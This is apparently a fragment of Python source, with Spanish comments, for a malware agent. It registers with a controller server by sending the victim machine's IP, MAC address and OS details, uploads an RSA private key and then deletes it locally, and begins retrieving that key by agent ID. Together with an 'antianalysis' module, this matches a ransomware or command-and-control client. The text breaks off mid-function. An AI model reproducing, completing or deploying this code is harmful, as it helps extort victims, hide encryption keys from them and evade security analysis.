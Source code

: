 # Obtener el agent_id desde el archivo
def get_agent_id():
    try:
        with open("agent_id.json", "r") as file:
            data = json.load(file)
            return data.get("agent_id")
    except (FileNotFoundError, json.JSONDecodeError):
        return None


def register_agent():
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    so = platform.system() + platform.version()
    private_key = load_private_key()

    if private_key is None:
        print("No se pudo cargar la clave privada. No se puede registrar el agente.")
        return None
    
    server_url = 'http://127.0.0.1:5000/register_agent'
    data = {
        'ip': ip,
        'mac': mac,
        'so': so 
    }
    files = {
        'private_key': ('rsa_private.pem', private_key, 'application/x-pem-file')
    }

    response = requests.post(server_url, data=data, files=files)    
    if response.status_code == 200:
        response_json = response.json()
        agent_id = response_json.get('agent_id')
        set_agent_id(agent_id)  # Guardar el ID en JSON 
        print(f"Agente registrado con éxito. ID: {agent_id}")
        os.remove("rsa_private.pem")  # Eliminar la clave privada después de transmitirla correctamente
    else:
        print(f"Error al registrar el agente: {response.text}")
        return None

def get_private_key():
    # Obtener el ID del agente desde memoria
    agent_id = get_agent_id()
    if agent_id is None:
        print("No se ha registrado un agente. No se puede obtener la clave privada.")
        return None

    server_url = f'http://127.0.0.1:5000/download_private_key/{agent_id}'
    
    # Realizar la solicitud GET para obtener el archivo .pem
    response = requests.get(server_url)
    